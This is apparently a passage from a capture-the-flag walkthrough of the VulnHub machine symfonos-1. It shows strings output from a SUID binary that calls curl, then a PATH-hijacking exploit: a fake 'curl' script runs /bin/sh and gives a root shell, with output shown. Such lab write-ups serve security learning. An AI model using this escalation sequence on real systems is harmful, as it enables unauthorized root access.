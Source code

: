 ```
Date: Sat, 31 Jul 2021 05:29:15 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html

```
```
$ strings /opt/statuscheck
strings /opt/statuscheck
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
...
```
```
$ cd /tmp
$ echo "/bin/sh" > curl
$ chmod 777 curl
$ export PATH=/tmp:$PATH
$ /opt/statuscheck
id
uid=1000(helios) gid=1000(helios) euid=0(root) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
/bin/sh -i
/bin/sh: 0: can't access tty; job control turned off
# id
uid=1000(helios) gid=1000(helios) euid=0(root) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

## Reference
* [vulnhub - symfonos-1](https://www.vulnhub.com/entry/symfonos-1,322/)
* [Hacking Articles - Symfonos:1 Vulnhub Walkthrough](https://www.hackingarticles.in/symfonos1-vulnhub-walkthrough/)
* [blog.mzfr.me - Vulnhub - Symfonos writeup](https://blog.mzfr.me/vulnhub-writeups/2019-07-04-symfonos)
